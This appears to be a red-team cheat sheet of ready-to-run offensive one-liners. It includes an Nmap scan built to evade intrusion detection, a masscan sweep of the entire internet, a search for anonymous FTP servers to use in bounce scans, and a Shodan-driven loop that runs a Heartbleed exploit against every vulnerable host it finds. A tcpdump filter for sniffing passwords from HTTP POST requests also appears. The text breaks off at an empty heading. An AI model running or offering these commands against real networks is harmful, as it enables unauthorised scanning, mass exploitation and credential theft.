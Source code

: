 ## IDS/IPS Nmap Evasion:

Low and slow (-T2), Fast mode (-F), Append random data to sent packets (--data-length), Randomize hosts, and verbosely conduct service detection on a file of hosts and output to XML.

```
nmap -T2 -F --data-length 5 --randomize-hosts -sV -v -iL (targets.txt) -oX (output.xml)
```
## Scanning Large Networks and Avoiding Sensitive IP Ranges:

Set ```exclude.txt``` equal to the contents of https://pastebin.com/53DP2HNV

```
masscan 0.0.0.0/0 -p0-65535 –excludedfile exclude.txt
```

## Finding Open FTP Servers:

Finding FTP servers that allow anonymous logons can assist in numerous red-teaming activities such as Nmap FTP bounce scans.

```
masscan -p 21 <IP Range> -oL ftp_servers.txt; nmap -iL ftp_servers.txt —script ftp-anon -oL open_ftp_servers.txt
```

## Scalable Heartbleed Hunting with Shodan:

Hunt for components susceptible to the Heartbleed vulnerability before exploiting the devices memory with this one-liner. This command requires an Academic Plus Shodan API key.

```
shodan search vuln:cve-2014-0160 --fields hostnames | awk NF > heartbleed_hosts.txt; cat heartbleed_hosts.txt | while read line; do heartbleed.py "$line"; done
```

## Extract Passwords from HTTP POST Requests:

```
sudo tcpdump -s 0 -A -n -l | egrep -i "POST /|pwd=|passwd=|password=|Host:"
```
## BPF'ing DNS Records:

```
# All queries
tcpdump -nt 'dst port 53 and udp[10] & 0x80 = 0'

# All responses
tcpdump -nt 'src port 53 and udp[10] & 0x80 = 0x80'
```

## Important Files:

